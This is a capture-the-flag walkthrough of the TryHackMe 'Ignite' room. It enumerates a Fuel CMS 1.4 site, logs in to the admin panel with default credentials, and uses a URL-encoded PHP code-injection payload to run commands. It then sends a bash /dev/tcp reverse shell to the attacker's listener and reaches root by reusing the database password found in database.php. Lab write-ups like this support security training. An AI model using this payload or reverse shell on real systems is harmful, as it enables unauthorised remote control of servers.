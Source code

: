 # TryHackMe Ignite

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

## VM Details

|**Name**|[Ignite](https://tryhackme.com/room/ignite)|
|---|---|
|**Date release**|864 days old (9/4/2021)|
|**Created by**|[DarkStar7471](https://tryhackme.com/p/DarkStar7471)|

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -Pn -p- --min-rate 1000 10.10.105.151
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

[+] Openning ports: 80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.105.151 -p80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-09 22:50 +07
Nmap scan report for 10.10.105.151
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.48 seconds
```

### Fuel CMS 1.4

The home page at port 80 is Fuel CMS version 1.4

![](images/1.png)

At `robots.txt`, I saw an uri `/fuel/`

```
┌──(Hades㉿10.11.32.198)-[2.3:22.2]~/walkthrough/tryhackme/ignite
└─$ curl http://10.10.105.151/robots.txt
User-agent: *
Disallow: /fuel/
```

Go to this page, I saw an login page.

![](images/2.png)

Try to login with common credential `admin:admin`, I got admin page.

![](images/3.png)

Search public exploit for Fuel CMS 1.4, there are 2 RCE exploit at `searchsploit`.

```
┌──(Hades㉿10.11.32.198)-[2.2:21.6]~/walkthrough/tryhackme/ignite
└─$ searchsploit Fuel CMS 1.4
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                   | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                   | php/webapps/49487.rb
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)         | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authentica | php/webapps/48778.txt
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Foothold

### Inject Code Execution

Follow exploit `linux/webapps/47138.py`, I know that the exploit call system and run injected command in the system.

`http://10.10.105.151/fuel/pages/select/?filter=%27%2bpi(print(%24a%3d%27system%27))%2b%24a(%27id%27)%2b%27` 

Try to sent `id` command using `curl` and I confirm this payload was executed.

```
┌──(Hades㉿10.11.32.198)-[2.6:23.8]~/walkthrough/tryhackme/ignite
└─$ curl --silent 'http://10.10.105.151/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27id%27%29%2b%27' | grep www-data     
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)
</div>systemuid=33(www-data) gid=33(www-data) groups=33(www-data)
<snip>
```

Using the same method to execute reverse shell to kali machine

```
┌──(Hades㉿10.11.32.198)-[2.8:22.3]~/walkthrough/tryhackme/ignite
└─$ hURL -U 'bash -c "sh -i >& /dev/tcp/10.11.32.198/443 0>&1"'

Original    :: bash -c "sh -i >& /dev/tcp/10.11.32.198/443 0>&1"
URL ENcoded :: bash%20-c%20%22sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.11.32.198%2F443%200%3E%261%22

┌──(Hades㉿10.11.32.198)-[2.8:22.3]~/walkthrough/tryhackme/ignite
└─$ cmd=bash%20-c%20%22sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.11.32.198%2F443%200%3E%261%22

┌──(Hades㉿10.11.32.198)-[2.8:22.3]~/walkthrough/tryhackme/ignite
└─$ curl "http://10.10.105.151/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27$cmd%27%29%2b%27"
```

At the listener, I got reverse shell

```
┌──(Hades㉿10.11.32.198)-[2.7:23.9]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.11.32.198] from (UNKNOWN) [10.10.105.151] 32810
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation

### Database password to root

After enum local machine, I found file `database.php` contain database password.

```
www-data@ubuntu:/var/www/html/fuel/application/config$ cat database.php 
<snip>
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
```

I enum database with knowed credential, but there are no value infomation in there. But when I try to login to root with same mysql's password: `mememe`, I got root access.

```
www-data@ubuntu:/var/www/html/fuel/application/config$ su  
Password: 
root@ubuntu:/var/www/html/fuel/application/config# id
uid=0(root) gid=0(root) groups=0(root)
```